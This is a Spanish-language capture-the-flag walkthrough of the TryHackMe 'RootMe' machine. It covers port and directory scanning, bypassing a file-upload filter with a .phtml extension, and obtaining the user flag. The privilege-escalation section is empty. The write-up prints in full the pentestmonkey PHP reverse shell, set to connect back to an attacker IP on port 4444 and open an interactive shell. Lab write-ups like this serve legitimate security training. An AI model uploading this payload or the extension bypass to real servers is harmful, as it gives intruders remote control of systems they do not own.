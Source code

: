 # RootMe
> Máquina de nivel **fácil** en TryHackMe. El objetivo es obtener acceso inicial mediante una vulnerabilidad en PHP y luego escalar privilegios a root explotando permisos indebidos.

**Tags:** `reverse shell` `priv esc` `php` 

[1. Enumeración](#enumeración)  
[2. Reverse Shell](#reverse-shell)  
[3. Priv Esc](#priv-esc)  
[4. Notas Finales](#notas-finales)

## Enumeración

Para comenzar, hacemos un escaneo rápido usando `nmap`.
```shell
sudo nmap -sS -Pn -A 10.10.120.74 --top-ports 100
```

Despliega dos puertos abiertos *(SSH y HTTP)*.  

![Nmap Scan](src/nmap.png)

Usando esta información, procedemos a buscar en el navegador.

![Index Root Me](src/rootme.png)

Al inspeccionar la página no notamos gran cosa. Sin embarago, podemos usar una buena herramienta para encontrar directorios públicos. Para esto, usamos `dirsearch`.

```shell
dirsearch -u http://10.10.120.74/
```

Como resultado, obtenemos 3 directorios abiertos.
- CSS/
- panel/
- uploads/

![Dirsearch resultado](src/dirsearch.png)

Al hacer una búsqueda sobre estos directorios sobre nuestro index, nos damos cuenta que los directorios ***panel*** y ***uploads*** nos sirven.

1. ***Panel***: Nos permite cargar archivos.

    ![Panel](src/panel.png)

2. ***Uploads***: Vacío (por el momento). Mas adelante nos ayudará a recuperar los archivos subidos.

    ![uploads](src/uploads.png)


### Panel

Al jugar un rato en el directorio `panel/`, nos damos cuenta que está sanitizado (no del todo), ya que no permite cargar archivos ejecutables. Se hizo la prueba con una captura de pantalla y el resultado fue el siguiente

- Carga de archivo en formato `.png` en `panel`.

![prueba](src/prueba_enviada.png)

- Recuperar archivo en `uploads`

![prueba](src/prueba_recuperada.png)

Una vez corroborado esto, buscamos alguna forma de obtener un reverse shell a través de algún archivo ejecutable.

## Reverse Shell

Para confirmar el lenguaje que maneja el backend, se utiliza una extensión llamada `wappalyzer`.

![wappalyzer](src/wappalyzer.png)

> El lenguaje usado es ***PHP***. Posibles extensiones: `.php`, `.phtml`, `.php3`, `.php4`, `.phps`.

Después de un rato, notamos que la máquina efectivamente acepta archivos con extensión `.phtml`.

Procedemos a buscar algún payload para usar una reverse shell a nuestra computadora.

Nos ayudamos de [Revshells Generator](https://www.revshells.com/) para encontrar algún payload que nos ayudé a crear la reverse shell. Para esto ponemos a nuestra computadora a escuchar en algún puerto (en mi caso usaré el 4444).

![payload](src/payload.png)

<details>
<summary>El payload encontrado fue el siguiente:</summary>
<br>

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.21.126.44';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    
    if ($pid) {
        exit(0);  // Parent exits
    }
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}

?>
```
</details> 

---

Una vez escuchando sobre este puerto y el payload cargado, procedemos a hacer clic sobre él (en mi caso `payload4.phtml`) y automáticamente el servidor web ejecutará el código.

![estamos dentro](src/estoy_dentro.png)

***Y ESTAMOS DENTRO***

Una vez dentro, procedemos a buscar la bandera. La propia plataforma nos dice que se encuentra en el archivo `user.txt`.

Usamos el siguiente comando para filtrar:

```shell
find / -type f -name user.txt 2>/dev/null
```

![user.txt](src/user.png)

## Priv Esc

## Notas finales

Esta es la primera máquina que pwneé, le tengo mucho cariño. 

Mis agradecimientos a Isaac, me ha dado buena guiada en CTFs.

